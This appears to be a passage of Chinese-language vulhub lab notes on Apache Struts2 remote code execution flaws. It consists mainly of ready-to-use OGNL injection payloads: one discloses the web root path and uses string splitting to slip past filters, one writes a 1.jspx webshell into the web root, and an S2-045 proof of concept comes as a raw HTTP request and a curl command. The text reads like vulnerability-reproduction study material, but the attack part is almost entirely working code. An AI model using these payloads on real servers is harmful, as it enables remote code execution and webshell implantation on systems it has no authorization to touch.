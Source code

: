 ##### payload2 获取web目录：

```

redirect:${#req=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletReq'+'uest'),#resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),#resp.setCharacterEncoding('UTF-8'),#ot=#resp.getWriter (),#ot.print('web'),#ot.print('path:'),#ot.print(#req.getSession().getServletContext().getRealPath('/')),#ot.flush(),#ot.close()}
```

使用字符串了拼接方法，绕过字符串过滤；


##### payload3 webshell：

```
redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletRequest"),#b=new java.io.FileOutputStream(new java.lang.StringBuilder(#a.getRealPath("/")).append(@java.io.File@separator).append("1.jspx").toString()),#b.write(#a.getParameter("t").getBytes()),#b.close(),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println("BINGO"),#genxor.flush(),#genxor.close()}
```

获取web目录路径后，创建 path/1.jspx 文件，写入几个字节，然后响应中写BINGO。

### s2-045

#### 漏洞复现

直接发送如下数据包，可见`233*233`已成功执行：

```
POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Length: 0
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data


```

可以使用
```
vulhub-master/struts2/s2-045$ curl -i -X POST http://localhost:8080 -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data"
```
